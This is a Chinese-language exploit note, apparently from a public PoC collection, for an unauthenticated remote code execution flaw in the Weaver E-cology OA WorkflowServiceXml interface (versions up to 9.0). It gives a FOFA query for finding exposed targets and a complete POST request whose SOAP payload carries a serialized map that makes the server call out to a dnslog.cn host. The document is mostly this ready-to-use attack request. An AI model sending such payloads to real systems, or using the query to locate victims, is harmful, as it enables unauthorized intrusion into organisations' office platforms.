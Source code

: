 # 泛微OA E-cology WorkflowServiceXml 远程代码执行漏洞

泛微OA E-Cology以移动互联下的组织社交化转型需求为导向，采用轻前端重后端的设计思路，在前端面向用户提供个性化的办公平台，后端引擎帮助企业高效整合既有的IT资源生成符合用户需求的IT应用，帮助企业实现多种路径实现移动协同办公。WorkflowServiceXml接口可被未授权访问，攻击者调用该接口，可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程命令执行。

影响版本：
E-cology <= 9.0

FOFA：`app="泛微-协同办公OA"`

详情可以参考：https://www.anquanke.com/post/id/239865

Payload：

//<map>内容实体编码。

```
POST /services%20/WorkflowServiceXml HTTP/1.1
Host: 

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="webservices.services.weaver.com.cn">
       <soapenv:Header/>
       <soapenv:Body>
          <web:doCreateWorkflowRequest>    <web:string>
<map>
  <entry>
    <url>http://nv0of7.dnslog.cn</url>
    <string>http://nv0of7.dnslog.cn</string>
  </entry>
</map>
      </web:string>
            <web:string>2</web:string>
          </web:doCreateWorkflowRequest>
       </soapenv:Body>
    </soapenv:Envelope>
```

ref：

* https://nox.qianxin.com/vulnerability/detail/98398
* https://www.anquanke.com/post/id/239865
